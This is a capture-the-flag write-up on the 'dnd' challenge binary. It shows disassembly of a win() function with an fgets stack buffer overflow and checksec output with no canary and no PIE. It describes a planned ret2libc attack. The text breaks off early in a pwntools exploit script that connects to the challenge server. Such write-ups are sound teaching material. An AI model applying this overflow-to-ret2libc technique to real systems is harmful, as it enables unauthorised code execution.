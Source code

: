If you win, the *win()* function is called, which has an fgets call vulnerable to a buffer overflow:

```
[0x0040286d]> x/20i
0x0040286d   rip:
0x0040286d             f30f1efa  endbr64
0x00402871                   55  push rbp
0x00402872               4889e5  mov rbp, rsp
0x00402875                   53  push rbx
0x00402876             4883ec58  sub rsp, 0x58              ;; stack frame is this big
0x0040287a           bea8504000  mov esi, str.Congratulations__Minstrals_will_sing_of_your_triumphs_for_millenia_to_come.
0x0040287f           bfc0814000  mov edi, obj.std::cout
0x00402884           e867fbffff  call method.std::basic_ostream_char__std::char_traits_char____std::operator____std.char_traits_char____std::basic_ostream_char__std::char_traits_char_____char_const_
0x00402889           be40234000  mov esi, method.std::basic_ostream_char__std::char_traits_char____std::endl_char__std.char_traits_char____std::basic_ostream_char__std::char_traits_char____
0x0040288e               4889c7  mov rdi, rax
0x00402891           e88afbffff  call sym.imp.std::ostream::operator___std::ostream____std::ostream__
0x00402896           bef8504000  mov esi, str.What_is_your_name__fierce_warrior_
0x0040289b           bfc0814000  mov edi, obj.std::cout
0x004028a0           e84bfbffff  call method.std::basic_ostream_char__std::char_traits_char____std::operator____std.char_traits_char____std::basic_ostream_char__std::char_traits_char_____char_const_
0x004028a5       488b15d4580000  mov rdx, qword [rip + 0x58d4]
0x004028ac             488d45a0  lea rax, [rbp - 0x60]       ;; drec: buffer is only 0x60 bytes away from saved rbp
0x004028b0           be00010000  mov esi, 0x100
0x004028b5               4889c7  mov rdi, rax
0x004028b8           e813fcffff  call sym.imp.fgets          ;; drec: calls fgets with n=0x100
```

Running checksec we see that there is no stack canary, and the binary is not PIE:

```
# pwn checksec dnd
[*] '/shared/dnd/dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

This means we can do a classic ret2libc exploit. But to get to *win()*, we have to satisfy conditions to win the game! Luckily, it's not that hard to win the game by chance, even if you randomly mash the `a` or `r`. I decided that for my exploit, I'm going to run for four rounds, then attack at the last one. This means that my exploit is not so reliable, but with a few tries it ends up working!

```python
from pwn import *

elf = context.binary = ELF("./dnd")
libc = ELF("./libc.so.6")

if args.REMOTE:
    io = remote("dnd.chals.ctfstaging.detjens.dev", 30813)
else:
    io = elf.process()

io.sendline(b'r')
io.sendline(b'r')
io.sendline(b'r')
```